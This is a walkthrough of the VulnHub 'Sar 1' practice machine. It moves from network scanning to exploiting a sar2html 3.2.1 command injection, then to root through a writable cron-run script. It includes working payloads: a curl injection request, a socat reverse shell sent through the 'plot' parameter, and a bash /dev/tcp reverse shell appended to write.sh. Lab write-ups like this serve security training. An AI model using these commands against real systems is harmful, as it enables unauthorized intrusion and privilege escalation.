 ```yaml
---
title: VulnHub - Sar 1
author: s4rgaz
date: 2021-07-22 23:26:22 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, command injection]
---
```


**Description:** A linux machine hosting a version of sar2html vulnerable to Remote Command Execution. Taken advantage of a cron job misconfiguration was possible to gain root privileges.

**Author:** Love

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/sar-1,425/](https://www.vulnhub.com/entry/sar-1,425/)

## Information Gathering
### Host Discovery

We start discovering the taget machine on the local network.

```console
root@kali:~$ arp-scan -I vmnet1 192.168.179.1/24
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
WARNING: host part of 192.168.179.1/24 is non-zero
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.179.142 00:0c:29:88:c6:9e       VMware, Inc.
192.168.179.254 00:50:56:ea:a9:69       VMware, Inc.

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.242 seconds (78.96 hosts/sec). 2 responded
```

### Port Scanning

Identified our target, I proceed to perform a UDP and TCP port scan with unicornscan.

```console
root@kali:~$ us -mT -Iv -p1-65535 192.168.179.142 && us -mU -Iv -p1-65535 192.168.179.142
...
TCP open                    http[   80]         from 192.168.179.142  ttl 64
...
UDP open                 unknown[48088]         from 192.168.179.142  ttl 64
...
```

### Service Enumeration

After I do the service enumeration on port 80.

```console
root@kali:~$ nmap -n -sV -sC -p80 192.168.179.142 -oN service-enum.txt
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:88:C6:9E (VMware)
```

### Web Enumeration

I access to the web page and find the apache default page, then I look for the robots.txt file and find the **sar2HTML** name.

![](/assets/images/sar/screenshot-1.png)

![](/assets/images/sar/screenshot-2.png)

I request this resource and redirects me to your home page.

Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's database. 

![](/assets/images/sar/screenshot-3.png)

Then I look vulnerabilities for sar2html version 3.2.1, and found that it's vulnerable to Remote Command Execution.

```console
root@kali:~$ searchsploit sar2html 3.2.1
------------------------------------------------------------ ------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                   | php/webapps/47204.txt
------------------------------------------------------------ ------------------------
```

I transfer a copy of this exploit to my current directory and we see the proof of concept.

```console
root@kali:~$ searchsploit -m php/webapps/47204.txt
root@kali:~$ cat 47204.txt 
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In the web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

## Exploitation
### Remote Command Execution

I check the POC with curl and I can see that the **id** command is running, so it's vulnerable.

```console
root@kali:~$ curl -s "http://192.168.179.142/sar2HTML/index.php?plot=;id" | tr '>' '\n' | grep '</option' | tail -n +3 | head -n -2 | sed 's/<\/option//'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Getting a reverse shell**

I first set up a netcat listener on port 443, and then run the following socat instruction in the browser.

`http://192.168.179.142/sar2HTML/index.php?plot=;socat TCP4:192.168.179.1:443 EXEC:/bin/bash`

![](/assets/images/sar/screenshot-4.png)

As we can see, we have a reverse shell with limited privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 36268
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sar:/var/www/html/sar2HTML$ uname -a
uname -a
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

**Cron Jobs Enumeration**

Enumerating the cron jobs in the crontab file, I find a cron job that runs the script **finally.sh** every five minutes in the /var/www/html/ directory.

```console
www-data@sar:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

## Privilege Escalation
### Cron Job

We list the contents of the directory **/var/www/html/** and we see the **finally.sh** script.

```console
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 .
drwxr-xr-x 4 www-data www-data  4096 Oct 21  2019 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh
```

We see the content of the **finally.sh** script, this is executing the **write.sh** script and this is creating the gateway file in the /temp directory.

```console
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
```

As we have write permissions in the **write.sh** script, let's write a bash reverse shell to that file.

```console
www-data@sar:/var/www/html$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.179.1/4545 0>&1'" >> write.sh 
```

Then set up a netcat listener on port 4545 and after five minutes we get a root shell.

```console
root@kali:~$ nc -vlnp 4545
listening on [any] 4545 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 45282
bash: cannot set terminal process group (3018): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
